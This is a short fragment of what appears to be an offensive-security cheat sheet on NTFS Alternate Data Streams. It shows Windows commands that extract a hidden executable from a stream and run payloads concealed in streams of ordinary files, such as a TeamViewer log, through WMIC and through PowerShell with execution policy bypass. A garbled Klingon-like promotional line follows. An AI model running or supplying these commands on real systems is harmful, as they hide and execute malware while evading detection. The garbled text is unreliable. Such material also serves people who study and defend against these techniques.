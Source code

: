 ```bash
expand c:\ads\file.txt:test.exe c:\temp\evil.exe

### Executing ADS Content ###
# Execute an executable stored in an ADS using WMIC
wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
# Execute a script stored in an ADS using PowerShell
powershell -ep bypass - < c:\temp:ttt
```
<details><summary><strong>qaStaHvIS AWS hacking vItlhutlh</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
